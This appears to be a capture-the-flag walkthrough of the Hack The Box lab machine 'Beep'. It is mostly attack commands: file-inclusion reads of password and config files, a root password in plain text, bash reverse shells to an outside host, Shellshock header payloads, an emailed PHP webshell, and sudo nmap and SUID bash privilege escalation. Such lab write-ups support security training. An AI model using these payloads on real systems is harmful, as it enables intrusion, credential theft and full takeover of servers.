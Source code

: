 # 🚨 HTB: Beep

[Easy](Easy)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.7
```

### 🔍 Targeted Script Scan
```bash
nmap -sC -sV -p 22,25,80,110,111,143,443,745,993,995,3306,4190,4445,4559,5038,10000 -oA nmap/scriptstcp 10.10.10.7
```

### 🔍 Scan for SSL Protocols
```bash
sslscan 10.10.10.7
```

---

## 🌐 Web Enumeration

### 🔍 HTTPS Redirect from Port 80
- Access via: `https://10.10.10.7/`

### 🔍 Directory Bruteforce
```bash
dirsearch.py -u https://10.10.10.7/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e txt,php -t 50
```

> Notable: `/admin`, `/vtigercrm`, `/recordings`, `/configs`, `/mail`, `/panel`

---

[Elastix Exploit](https://github.com/A1vinSmith/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/blob/master/exploit.py)  -> change to python3

```
import urllib2 -> from urllib import request
```

```
change urllib2 on the bottom to request
```

use exploit

```bash
rlwrap nc -lvnp 4444
```

elevate priv

```bash
sudo nmap --interactive  
!sh
```

## 🗂️ Local File Inclusion (LFI)

### 🔍 Exploit LFI
```bash
curl "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action"
```

---

## 📥 Credential Collection

### 📁 Read Config for Passwords
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

---

## ✉️ [SMTP](SMTP) User Discovery

### 📫 VRFY with Telnet
```bash
telnet 10.10.10.7 25
EHLO test
VRFY fanis
VRFY cyrus
```

---

## 🧑‍💻 Exploit Paths

---

## [Path #1] 💥 RCE via 18650.py (Elastix)

### 🔍 Identify Extension
```bash
svwar -m INVITE -e100-999 10.10.10.7
```

### 🛠️ Patch Python Script for TLSv1.0
```python
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
urllib.urlopen(url, context=ctx)
```

### ⚙️ Run Exploit
```bash
python2 18650.py
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #2] 🌐 [Webmin Login](HTTP)

### 🔑 Login
- URL: `https://10.10.10.7:10000`
- Creds: `root / jEhdIekWmdjE`

### 🧨 Reverse Shell via Scheduled Command
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #3] 🔐 [SSH](SSH) as root

```bash
ssh root@10.10.10.7
# Password: jEhdIekWmdjE
```

---

## [Path #4] ☠️ Shellshock via Webmin CGI

### 🧪 Proof of Concept
```http
User-Agent: () { :; }; ping -c 1 10.10.14.2
```

### 🐚 Reverse Shell Payload
```http
User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
```

### 🐚 Listener
```bash
nc -lnvp 8081
```

---

## [Path #5] 📧 Webshell Upload via Email + LFI

### 📤 Send PHP Shell via Email
```bash
swaks --to asterisk@localhost \
--from 0xdf@0xdf.htb \
--header "Subject: shell" \
--body '<?php system($_REQUEST["cmd"]); ?>' \
--server 10.10.10.7
```

### 🔍 Access Webshell via LFI
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

---

## 🛗 Privilege Escalation

### [1] 🚪 `nmap` Interactive Shell
```bash
sudo nmap --interactive
nmap> !bash
```

### [2] 📦 SUID Binary Trick via `chmod`
```bash
sudo chmod 4755 /bin/bash
bash -p
```
